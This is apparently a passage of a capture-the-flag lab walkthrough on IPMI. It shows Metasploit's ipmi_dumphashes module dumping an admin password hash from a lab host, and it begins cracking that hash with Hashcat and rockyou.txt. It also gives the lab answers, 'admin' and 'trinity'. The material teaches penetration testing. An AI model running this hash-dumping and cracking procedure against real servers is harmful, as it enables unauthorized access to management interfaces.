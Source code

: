Answer: `E066D214D5421CCC`

# IPMI

## Question 1

### "What username is configured for accessing the host via IPMI?"

After spawning the target machine, students need to launch `msfconsole` and use the `ipmi_dumphashes` module under `auxiliary/scanner/ipmi/`, setting `RHOSTS` to `STMIP` and then running the exploit; students will find that the `admin` username is configured for accessing the host via IPMI:

Code: shell

```shell
msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS STMIP
run
```

```
┌─[us-academy-1]─[10.10.14.69]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.129.131.254
RHOSTS => 10.129.131.254
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.131.254:623 - IPMI - Hash found: admin:93c887ae8200000052f17511d0fd3b9a08350b045e118a2cd0c311777576080bc13a5581d522cdb5a123456789abcdefa123456789abcdef140561646d696e:3541221bac8d7e76f34e45697aed40edfbe87fd8
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Answer: `admin`

# IPMI

## Question 2

### "What is the account's cleartext password?"

Using the hash that was found from the `ipmi_dumphashes` module from `msfconsole` in the previous question, students need to crack it using `Hashcat`, specifying 7300 as the hashmode and `rockyou.txt` as the wordlist; students will find out that the plaintext password is `trinity`:

Code: shell
